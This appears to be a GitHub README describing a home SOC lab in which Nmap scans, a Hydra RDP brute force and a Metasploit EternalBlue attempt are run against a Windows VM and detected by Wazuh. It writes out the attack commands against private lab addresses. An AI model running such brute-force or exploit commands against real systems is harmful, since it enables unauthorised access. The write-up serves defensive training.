






# Home SOC Lab — Attack & Detection Environment

## Overview
A home lab simulating a real SOC environment built to practise attack simulation, log analysis, and alert triage. The lab consists of three virtual machines running on VMware Workstation 17 Pro — an attacker machine, a Windows victim host, and a Wazuh SIEM for log collection and detection.

## Lab Architecture

| Machine | OS | Role | IP |
|---|---|---|---|
| Kali-Attacker | Kali Linux 2025.4 | Offensive testing | 192.168.175.128 |
| Windows-Victim | Windows 10 x64 | Target host + Wazuh agent | 192.168.175.129 |
| Ubuntu-SIEM | Ubuntu 24.04 | Wazuh 4.7 SIEM | 192.168.175.130 |

All VMs run on VMware Workstation 17 Pro on an isolated VMnet8 NAT network. The VMs can communicate with each other but are isolated from the wider network.

## Tools Used
- VMware Workstation 17 Pro (virtualisation)
- Wazuh 4.7 (SIEM - log collection, alerting, dashboards, compliance)
- Nmap 7.95 (network reconnaissance)
- Metasploit 6.4 (exploitation framework)
- Hydra 9.6 (brute force simulation)

## Attacks Simulated & Detections

### 1. Network Reconnaissance — Nmap Port Scan
**Command:**
```bash
nmap -sV -O 192.168.175.129
```
**What happened:** Full service and OS detection scan against Windows-Victim. Nmap identified port 5357 open (Microsoft HTTPAPI), detected the OS as Windows 10/11 with 97% confidence, and retrieved the MAC address.

**Wazuh detection:** Network anomaly events logged from Windows-Victim agent. Reconnaissance activity visible in Security Events timeline.

**Screenshot:** [Nmap scan results](screenshots/nmap-scan.jpeg)

---

### 2. Brute Force Attack — Hydra RDP
**Command:**
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.175.129 -t 4
```
**What happened:** Hydra launched 14,344,399 login attempts against Windows-Victim's RDP port 3389 using the rockyou wordlist. The attack generated a massive spike in authentication events visible on the Wazuh dashboard timeline.

**Wazuh detection:** 171 total alerts generated from Windows-Victim. The alert level evolution graph showed a clear spike at the exact moment the attack started. Wazuh automatically mapped activity to MITRE ATT&CK T1078 (Valid Accounts). Compliance check also triggered — Windows-Victim scored below 50% on the CIS Microsoft Windows 10 Enterprise Benchmark (Rule 19004, Level 7).

**Screenshot:** [Brute force alert spike](screenshots/brute-force-spike.jpeg)

---

### 3. Exploitation Attempt — EternalBlue MS17-010
**Commands:**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.175.129
set LHOST 192.168.175.128
run
```
**What happened:** Attempted the MS17-010 EternalBlue exploit (the vulnerability behind WannaCry) against Windows-Victim on port 445. The exploit returned "target is not vulnerable" — confirming Windows 10 is patched against this CVE by default.

**Wazuh detection:** SMB connection attempt logged. Result demonstrates the importance of patch management — the same exploit would have succeeded against an unpatched Windows 7 or Server 2008 target.

**Screenshot:** [EternalBlue attempt](screenshots/eternal-blue.jpeg)

---

## Key Findings

- Wazuh automatically maps all detected activity to the MITRE ATT&CK framework without any manual configuration
- A brute force attack of 14M+ attempts against RDP generated 171 alerts and a visible spike on the timeline within seconds
- Wazuh runs CIS compliance benchmarks automatically — Windows-Victim failed with a score below 50%, highlighting real misconfigurations
- Windows 10 is patched against EternalBlue (MS17-010) by default — patch management directly prevented exploitation
- High severity alerts (Level 8-9) were generated for persistence indicators (T1098) and application errors automatically

## Key Learnings
- Setting up a SIEM from scratch requires careful attention to agent connectivity and firewall rules
- MITRE ATT&CK mapping in Wazuh makes it easy to contextualise raw alerts into meaningful threat intelligence
- A brute force attack is immediately visible as a spike in the alert timeline — real SOC analysts use this pattern to detect attacks in progress
- Patch management is the most effective defence — an unpatched system would have been fully compromised by EternalBlue

## Screenshots

| Screenshot | Description |
|---|---|
|  | Wazuh dashboard with Windows-Victim active agent |
|  | Nmap reconnaissance scan from Kali |
|  | Wazuh Security Events from Windows-Victim |
|  | Alert spike during Hydra brute force attack |
|  | High severity alerts with MITRE ATT&CK mapping |
|  | Raw JSON alert detail from Windows-Victim |
|  | EternalBlue exploitation attempt |
|  | High severity compliance and persistence alerts |

## Environment Setup
- Host OS: Windows 11
- Hypervisor: VMware Workstation 17 Pro
- Network: Isolated VMnet8 NAT (192.168.175.0/24)
- SIEM: Wazuh 4.7.5 installed via official install script
- All VMs assigned static IPs to ensure consistent connectivity across sessions
